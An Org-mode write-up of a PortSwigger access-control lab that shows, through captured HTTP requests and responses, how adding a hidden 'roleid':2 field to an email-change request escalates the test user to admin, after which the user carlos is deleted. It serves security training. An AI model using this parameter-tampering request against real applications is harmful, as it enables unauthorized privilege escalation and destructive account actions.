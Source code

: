 #+title: User role can be modified in user profile
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]
#+description: Access Control Labs from Portswigger
#+date: 2023-08-11 Fri
#+options: toc:2

* Table of Contents :toc:
- [[#lab-contain][Lab contain]]
- [[#end-goal][End Goal]]
- [[#exploit][Exploit]]
  - [[#steps-to-exploit][Steps to exploit]]

* Lab contain
- has =admin= panel at =/admin= location
- but with =roleid=2= user can only access the admin panel
* End Goal
- access admin panel
- delete user =carlos=
* Exploit 
*** Test account
- username: wiener
- password: peter
** Steps to exploit
- access the lab
- login with test account
- use update email feature of the user profile and intercept the request in the burpsuite
*** Request 
#+begin_src request
POST /my-account/change-email HTTP/2
Host: 0afd0095044a9de587acd8050002003a.web-security-academy.net
Cookie: session=M3JveREeG0ZX8AM3qUOhIW250L3AvQuP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 25
Origin: https://0afd0095044a9de587acd8050002003a.web-security-academy.net
Dnt: 1
Referer: https://0afd0095044a9de587acd8050002003a.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Te: trailers

{"email":"test@test.com"}
#+end_src>
*** Respose
#+begin_src response
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 117
{
  "username": "wiener",
  "email": "test@test.com",
  "apikey": "mTPDvD0c2GWX2ZDkKn6WF7qEguUzHyoO",
  "roleid": 1
}
#+end_src

/Here we can see that it has roleid property. but in the request body we did not see this./
- Now if we change this =roleid: 1= from =roleid: 2= through email update request
#+begin_src 
POST /my-account/change-email HTTP/2
Host: 0afd0095044a9de587acd8050002003a.web-security-academy.net
Cookie: session=M3JveREeG0ZX8AM3qUOhIW250L3AvQuP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 38
Origin: https://0afd0095044a9de587acd8050002003a.web-security-academy.net
Dnt: 1
Referer: https://0afd0095044a9de587acd8050002003a.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Te: trailers

{
  "email":"test@test.com",
  "roleid":2
}
#+end_src

Now go to account page. Ha! Admin panel is here. User =wiener= become an =admin= user
- go to =admin= panel and delete the user =carlos=
